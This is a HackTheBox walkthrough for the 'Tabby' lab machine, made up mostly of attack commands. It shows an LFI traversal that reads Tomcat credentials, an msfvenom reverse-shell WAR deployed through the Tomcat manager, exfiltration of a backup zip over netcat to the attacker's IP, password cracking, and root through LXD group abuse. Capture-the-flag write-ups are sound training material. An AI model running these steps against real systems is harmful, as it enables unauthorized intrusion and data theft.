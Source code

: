# HackTheBox: Tabby Walkthrough

## Machine Info
- **Name**: Tabby
- **OS**: Linux
- **Difficulty**: Easy
- **Points**: 20
- **Release**: 20 Jun 2020
- **IP**: 10.10.10.194

---

## Recon

### Nmap
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.194
nmap -p 80,8080,22 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.194
```
- Open ports: 22 (SSH), 80 (HTTP - Apache), 8080 (Tomcat)

### Add to Hosts
```bash
echo "10.10.10.194 megahosting.htb" | sudo tee -a /etc/hosts
```

---

## Enumeration

### HTTP (Port 80)
- Site: Hosting company
- `http://megahosting.htb/news.php?file=statement` → possible **LFI**

### Gobuster
```bash
gobuster dir -u http://10.10.10.194 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 40
```
- Found `/news.php`, `/files/`, `/assets/`

### Tomcat (Port 8080)
- Default Tomcat page
- Found hint: Users in `/etc/tomcat9/tomcat-users.xml`

### LFI to Read tomcat-users.xml
```bash
curl http://megahosting.htb/news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml
```
- **Credentials Found**:
  - `tomcat:$3cureP4s5w0rd123!`
  - Roles: `admin-gui`, `manager-script`

---

## Shell as tomcat

### Deploy WAR via Manager Text Interface
```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.18 lport=443 -f war -o shell.war
curl -u 'tomcat:$3cureP4s5w0rd123!' \
  --upload-file shell.war \
  'http://10.10.10.194:8080/manager/text/deploy?path=/shell'
```

### Trigger Shell
```bash
nc -lnvp 443
curl http://10.10.10.194:8080/shell
```

### Shell Upgrade
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL-Z
stty raw -echo; fg
export TERM=xterm
```

---

## Privilege Escalation: tomcat → ash

### Check `/var/www/html/files` Directory
```bash
ls -l /var/www/html/files
```
- Found: `16162020_backup.zip` owned by ash

### Exfiltrate & Crack Zip
```bash
cat 16162020_backup.zip | nc 10.10.14.18 4444
# On host:
nc -lnvp 4444 > 16162020_backup.zip
zip2john 16162020_backup.zip > hash.john
john hash.john --wordlist=/usr/share/wordlists/rockyou.txt
```
- Password: `admin@it`

### su to ash
```bash
su - ash
Password: admin@it
```
- **User Flag**: `cat ~/user.txt`

---

## Privilege Escalation: ash → root

### Check Groups
```bash
id
```
- ash is in `lxd` group

### Exploit LXD
#### Method 1: Standard Alpine Import
```bash
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
./build-alpine
# On Tabby:
wget http://10.10.14.18/alpine.tar.gz
lxc image import alpine.tar.gz --alias alpine
lxc init alpine privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root
lxc start privesc
lxc exec privesc /bin/sh
cd /mnt/root/root
cat root.txt
```

#### Method 2: Minimal LXC Root (m0noc)
```bash
echo "<base64-string>" | base64 -d > root.tar.bz2
lxc image import root.tar.bz2 --alias rootimg
lxc init rootimg rootct -c security.privileged=true
lxc config device add rootct hostdisk disk source=/ path=/mnt/root
lxc start rootct
lxc exec rootct /bin/sh
cd /mnt/root/root
cat root.txt
```

---

## Summary
- **LFI** leads to **Tomcat creds**
- WAR deploy via `manager-script` role
- Backup ZIP with password reuse
- `lxd` group exploit to root